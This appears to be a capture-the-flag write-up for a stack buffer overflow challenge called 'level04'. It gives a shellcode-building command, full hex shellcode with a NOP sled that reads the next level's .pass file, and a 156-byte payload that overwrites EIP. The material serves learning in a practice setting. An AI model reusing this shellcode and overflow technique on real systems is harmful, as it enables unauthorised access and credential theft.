 # level04

This program forks itself:
- The child calls `gets` on a stack buffer (so obvious buffer overflow attack vector)
- Meanwhile the parent watches the child and kills it as soon as a syscall is detected

The obvious shellcode to create a reverse shell won't work here, but there are still possibilities.
We created a shellcode that opens, reads, and outputs the .pass file.

The shellcode uses a [JMP CALL POP technique](https://marcosvalle.github.io/osce/2018/05/06/JMP-CALL-POP-technique.html).
It is fully commented so don't hesitate to read it!

To convert the assembly code into a valid shellcode we use this command:
```sh
nasm -f elf32 shellcode.asm -o shellcode.o && objcopy -O binary -j .text shellcode.o /proc/self/fd/1 | hexdump -ve '"\\\" 1/1 "x%02X"'
```

Then we can put the shellcode with a nopslide in the env like so:
```sh
export SHELLCODE=$(python -c 'print "\x90"*1000 + "\xEB\x26\x31\xC0\xB0\x05\x5B\x31\xC9\x31\xD2\xCD\x80\xC6\x44\x24\x28\x0A\x89\xC3\xB0\x03\x89\xE1\xB2\x29\xCD\x80\xB0\x04\xB3\x01\x89\xE1\xCD\x80\xB0\x01\xCD\x80\xE8\xD5\xFF\xFF\xFF\x2F\x68\x6F\x6D\x65\x2F\x75\x73\x65\x72\x73\x2F\x6C\x65\x76\x65\x6C\x30\x35\x2F\x2E\x70\x61\x73\x73"')
```

Using a cycle we found out that we need to write 156 bytes to overwrite EIP in so after finding an address in the middle
of the nopslide all we need to do is call `level4` like so:
```sh
python -c 'print "."*156 + "\xff\xff\xd6\xf9"[::-1]' | ./level04
```

And done!
